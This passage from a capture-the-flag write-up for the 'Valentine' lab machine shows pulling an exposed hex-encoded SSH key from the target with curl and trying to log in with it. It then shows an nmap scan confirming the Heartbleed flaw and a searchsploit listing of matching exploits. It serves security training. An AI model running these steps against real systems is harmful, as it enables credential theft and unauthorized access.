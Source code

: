 ```shell
```

Try to log in with the SSH key.<br>
However, we get password prompt.
```shell
root@kali:~# curl http://10.10.10.79/dev/hype_key -s | xxd -r -p > hype_key

root@kali:~# chmod 600 hype_key

root@kali:~# ssh -i hype_key hype@10.10.10.79
Enter passphrase for key 'hype_key':
```

On the top page, we have an image an woman with `bleeding heart`.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-18/omg.jpg)

Then, try to check if this has <a href="https://heartbleed.com/">Heartbleed</a>.<br>
We can confirm that this server is vulnerable to the `Heartbleed` affects some old versions of `OpenSSL`.
```shell
root@kali:~# nmap -p 443 --script ssl-heartbleed valentine.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 15:42 EEST
Nmap scan report for valentine.htb (10.10.10.79)
Host is up (0.042s latency).

PORT    STATE SERVICE
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://www.openssl.org/news/secadv_20140407.txt 
|_      http://cvedetails.com/cve/2014-0160/

Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
```

Then, try `searchsploit`.
```shell
root@kali:~# searchsploit heartbleed
-------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                          |  Path
                                                                                                        | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------- ----------------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)     | exploits/multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                     | exploits/multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                      | exploits/multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                        | exploits/multiple/remote/32745.py
```